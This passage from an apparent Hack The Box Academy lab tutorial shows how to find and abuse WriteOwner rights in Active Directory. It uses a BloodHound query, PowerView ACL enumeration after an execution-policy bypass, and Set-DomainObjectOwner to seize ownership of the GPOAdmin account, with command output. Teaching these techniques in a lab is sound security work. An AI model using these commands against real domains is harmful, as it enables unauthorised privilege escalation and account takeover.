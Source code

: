 First, we will use `BloodHound` with a cypher query to identify those access rights. We include `n:User` so that `BloodHound` returns only paths created from a user object. We can do the same with groups; however, that will create too many paths, making it more challenging to analyze.

```cypher
MATCH p=((n:User)-[r:WriteOwner]->(m)) RETURN p
```

![writeowner_user.jpg](https://academy.hackthebox.com/storage/modules/219/writeowner_user.jpg)

Similarly, we can use `dacledit.py` and `PowerView` to identify those access rights:

# Querying Pedro's DACL over the User GPOAdmin using dacledit.py

```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $userSID = ConvertTo-SID pedro
PS C:\Tools> Get-DomainObjectAcl -Identity GPOAdmin -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $userSID}

AceType               : AccessAllowed
ObjectDN              : CN=GPOAdmin,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : WriteOwner
OpaqueLength          : 0
ObjectSID             : S-1-5-21-1267651629-1192007096-1618970724-4624
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-1267651629-1192007096-1618970724-4617
AccessMask            : 524288
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

---
---
# Abusing WriteOwner from Windows

From Windows, we can change a target object's `owner` with [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) from the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).

#### Setting the Object Owner with PowerView

```powershell-session
PS C:\Tools> Set-DomainObjectOwner -Identity GPOAdmin -OwnerIdentity pedro -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=pedro)(name=pedro)(displayname=pedro))))
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=GPOAdmin)(name=GPOAdmin)(displayname=GPOAdmin))))
VERBOSE: [Set-DomainObjectOwner] Attempting to set the owner for 'GPOAdmin' to 'pedro'
```
